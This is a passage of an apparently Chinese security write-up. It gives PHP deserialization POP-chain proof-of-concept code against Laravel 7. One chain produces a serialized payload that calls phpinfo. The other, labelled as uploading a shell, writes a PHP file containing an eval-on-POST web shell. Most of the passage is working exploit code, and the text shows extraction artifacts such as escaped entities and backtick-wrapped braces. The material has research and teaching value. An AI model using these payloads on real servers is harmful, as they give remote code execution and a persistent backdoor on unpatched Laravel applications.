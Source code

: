 ```

namespace `{`

    use Illuminate\Notifications\ChannelManager;
    use Illuminate\Routing\PendingResourceRegistration;

    $b = new ChannelManager('phpinfo', '-1');
    $a = new PendingResourceRegistration($b, 'ricky', 'ricky', 'ricky');
    echo urlencode(serialize($a));
`}`
```

上传 shell 的 POP链

```
&lt;?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc4
# @author: Ricky
# @ability: upload shell
*/

namespace Illuminate\Routing`{`
    class PendingResourceRegistration`{`
        protected $registrar;
        protected $name;
        protected $controller;
        protected $options;
        public function __construct($registrar, $name, $controller, $options)
        `{`
            $this-&gt;registrar = $registrar;
            $this-&gt;name = $name;
            $this-&gt;controller = $controller;
            $this-&gt;options = $options;
        `}`
    `}`
`}`

namespace Illuminate\Notifications
`{`
    class ChannelManager
    `{`
        protected $container;
        protected $defaultChannel;
        protected $customCreators;

        function __construct($function, $parameter)
        `{`
            $this-&gt;container = $parameter;
            $this-&gt;customCreators = ['x' =&gt; $function];
            $this-&gt;defaultChannel = 'x';
        `}`
    `}`
`}`

namespace Illuminate\Filesystem `{`
    class Filesystem`{`
        public $path = 'ricky.php';
        public $data = '&lt;?php eval($_POST[ricky]);?&gt;';
    `}`
`}`

```
